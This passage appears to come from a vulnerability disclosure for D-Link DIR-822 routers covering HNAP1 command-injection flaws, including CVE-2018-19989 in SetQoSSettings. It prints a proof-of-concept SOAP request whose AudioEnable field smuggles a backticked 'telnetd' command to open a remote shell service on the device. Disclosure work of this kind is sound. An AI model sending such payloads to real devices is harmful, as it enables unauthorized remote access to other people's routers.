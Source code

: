 and

```
<?xml version="1.0" encoding="utf-8"?> <soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"> <soap:Body>
<SetClientInfoDemo> <ClientInfoLists> <ClientInfo>
<MacAddress>11:22:33:44:55:66</MacAddress>
<NickName>default</NickName>
<ReserveIP>192.168.0.1</ReserveIP> <SupportedAction>
<AudioMute>default</AudioMute>
<AudioEnable>'`telnetd`'</AudioEnable>
<SmartPlugEnable>default</SmartPlugEnable>
<ZWaveSmartPlug>default</ZWaveSmartPlug> </SupportedAction>
</ClientInfo> </ClientInfoLists>
</SetClientInfoDemo>
</soap:Body> </soap:Envelope>
```

## CVE-2018-19989 - /HNAP1/SetQoSSettings

**Firmware version**:
DIR-822_REVB - 202KRb06,
DIR-822_REVC - 3.10B06

**Hardware Link**:
http://www.mydlink.co.kr/2013/beta_board/product_detail.php?no=205&model=DIR-822,
https://support.dlink.com/ProductInfo.aspx?m=DIR-822-US

### The detail of vulnerability ###

In the `/HNAP1/SetQoSSettings` message, the `uplink` element is vulnerable, and the vulnerability affects D-Link DIR-822 Rev.B 202KRb06 and DIR-822 Rev.C 3.10B06 devices.

In the `SetQoSSettings.php` source code, the `uplink` element is saved in the `/bwc/entry:1/bandwidth` and `/bwc/entry:2/bandwidth` internal configuration memory without any regex checking.

![](SetQoSSettings.php.png)
